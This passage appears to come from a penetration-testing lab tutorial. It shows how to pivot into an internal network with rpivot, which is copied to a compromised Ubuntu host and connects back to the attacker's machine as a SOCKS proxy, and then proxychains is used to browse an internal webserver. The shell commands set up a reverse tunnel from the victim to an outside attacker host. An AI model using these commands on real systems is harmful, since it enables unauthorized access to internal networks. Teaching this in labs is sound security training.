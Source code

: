 We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

#### Running server.py from the Attack Host

```shell
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

#### Transfering rpivot to the Target

```shell
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

```

#### Running client.py from Pivot Target

```shell
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999

```

#### Confirming Connection is Established

```shell
New connection from host 10.129.202.64, source port 35226

```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

#### Browsing to the Target Webserver using Proxychains

```shell
proxychains firefox-esr 172.16.5.135:80

```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:
